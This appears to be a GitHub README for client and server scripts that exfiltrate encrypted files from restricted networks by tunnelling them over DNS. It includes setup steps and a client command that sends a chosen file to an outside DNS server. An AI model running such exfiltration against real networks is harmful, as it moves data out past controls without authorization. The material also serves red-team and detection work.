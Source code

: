 # DNS Exfiltration
* DNS can be used to extract data from protected networks that only permit DNS. These are client & server scripts that both encrypt & decrypt data transferred through DNS. The client encrypts the data before it's sent through the network. The server decrypts the data once it's received from the client. 

# Setup:
* Dependencies (client/server)
	```
	pip3 install -r requirements.txt
	```
* Server:
	```
	python3 server.py -v
	```
* Note that since DNS server is usually running on privileged port `53`, the `server.py` needs root permissions.
* Client:
	```
	python3 client.py -n <YOUR DNS SERVER> -f /path/to/file
	```
* A gif showing the process:
* ![dns exfiltration](assets/dns_exfiltration.gif)
* How it looks on WireShark (DNS over UDP):
* ![DNS over UDP](assets/DNSOverUDP.png)
* How it looks on WireShark (DNS over TCP):
* ![DNS over TCP](assets/DNSOverTCP.png)
# Requires python3.8+
* Since the server & client are using UDP protocol to transfer data, such a transfer process is not reliable, and therefore, files might not be transferred correctly when either the file being transferred is large or there is a traffic noise on the server. The delay between the byte blocks being sent can also affect the byte blocks order, which may corrupt the file being sent if one block of bytes gets received before the one that must be received first.
* For these reasons, DNS over TCP is supported and can be used to transfer files/data on a higher reliability.
* You can send binary files too.
# TODO
* ✓ Make the file sending process as reliable as possible (use TCP for this `--tcp`).
----
* Useful links:
* [DNS exfiltration of data](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)
